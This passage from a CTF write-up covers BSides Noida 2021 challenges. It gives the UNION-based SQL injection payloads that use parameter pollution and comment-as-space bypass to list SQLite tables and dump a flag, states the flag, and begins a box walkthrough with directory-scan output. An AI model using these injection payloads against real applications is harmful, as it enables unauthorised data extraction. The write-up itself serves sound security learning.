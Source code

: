 ### Listing columns and tables
From opening `karma.db`(from source code) in sqlite browser, we see that it has 6 columns.

To list columns and tables, I used the following payload

```html
GET /?chall_id=1&chall_id=1/**/UNION/**/SELECT/**/NULL,NULL,NULL,NULL,NULL,sql/**/FROM/**/sqlite_master
```

Using this payload we get a table named `flagsss` and column named `flag`

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/getting_tables_columns.png">

Now, we can use the following query to retrieve the flag.

```html
GET /?chall_id=1&chall_id=1/**/UNION/**/SELECT/**/NULL,NULL,NULL,NULL,NULL,flag/**/FROM/**/flagsss
```

<img src="https://github.com/p1xxxel/ctf-writeups/blob/main/2021/BSides%20Noida/Baby%20Web/flag_query.png">

So the flag is `BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4}`

# Death Note

#### Category : Death Note
#### Points : 454 (43 solves)
#### Author : Mr.Grep

## Challenge
CTF Box based on Death Note
Note : submit the root flag

[chall link](https://tryhackme.com/jr/bsidesnoida2021ctfn6)

## Solution
#### Nmap Scan
Scanning for ports, we see that there are only 2 ports open : 22 and 80.

#### Directory scan
Scanning for directories with the given [wordlst](https://github.com/p1xxxel)

```bash
index.html              [Status: 200, Size: 4173, Words: 1633, Lines: 104]
s3cr3t                  [Status: 200, Size: 63, Words: 12, Lines: 2]
robots.txt              [Status: 200, Size: 17, Words: 3, Lines: 2]
ryuk.apples             [Status: 200, Size: 1766, Words: 9, Lines: 31]
robots.txt              [Status: 200, Size: 17, Words: 3, Lines: 2]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
:: Progress: [4614/4614] :: Job [1/1] :: 148 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```
